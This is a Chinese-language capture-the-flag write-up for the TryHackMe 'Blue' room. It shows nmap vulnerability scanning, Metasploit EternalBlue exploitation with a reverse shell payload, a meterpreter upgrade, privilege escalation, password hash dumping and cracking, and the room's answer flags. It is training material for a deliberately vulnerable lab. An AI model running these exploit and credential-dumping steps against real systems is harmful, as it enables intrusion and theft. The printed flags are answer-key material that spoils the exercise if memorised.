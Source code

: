 # Blue-练习

TryHackMe实验房间链接：https://tryhackme.com/room/blue

## Recon （侦察-信息收集阶段）

使用nmap进行端口扫描:

```shell
nmap -sV -vv --script vuln 10.10.100.31           #nmap -sV -vv --script vuln TARGET_IP
```

![image-20221006121232447](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006121232447.png)

![image-20221006121440607](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006121440607.png)

**答题卡**

![image-20221006120152100](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006120152100.png)

## Gain Access（获取目标权限）

执行exp在目标机器上获得立足点。

启动msf，搜索exp代码，参考相关选项，设置相关参数，执行exp

```shell
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.100.31
set payload windows/x64/shell/reverse_tcp    #使用默认的payload也可以
run
```

![image-20221006122617559](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006122617559.png)

![image-20221006122814091](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006122814091.png)

**答题卡**

![image-20221006122857577](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006122857577.png)

## Escalate （提升权限）

使用命令，将上一步骤中获得的shell转换为meterpreter shell

```shell
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
sessions -l
set SESSION 1
run
sessions -l
sessions -i 2
```

![image-20221006123816402](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006123816402.png)

![image-20221006123910236](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006123910236.png)

得到meterpreter shell之后，迁移当前进程到高权限用户下，以此提升meterpreter权限

![image-20221006124319584](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006124319584.png)

![image-20221006124456868](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006124456868.png)

![image-20221006124542565](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006124542565.png)

**答题卡**

![image-20221006132423216](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006132423216.png)

## Cracking （破解密码hash）

转储非默认用户的密码并破解它。

```shell
hashdump
```

![image-20221006132804855](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006132804855.png)

直接使用在线网站破解，也可以通过使用rockyou.txt字典结合破解工具进行hash破解。

![image-20221006132730856](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006132730856.png)

![image-20221006133808522](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006133808522.png)

**答题卡**

![image-20221006133837807](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006133837807.png)

## Find flags（寻找flag）

使用命令查找flag文件

![image-20221006140158604](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006140158604.png)

![image-20221006140656884](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006140656884.png)

**答题卡**

> flag{access\_the\_machine}
>
> flag{sam\_database\_elevated\_access}
>
> flag{admin\_documents\_can\_be\_valuable}

![image-20221006141555023](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006141555023.png)
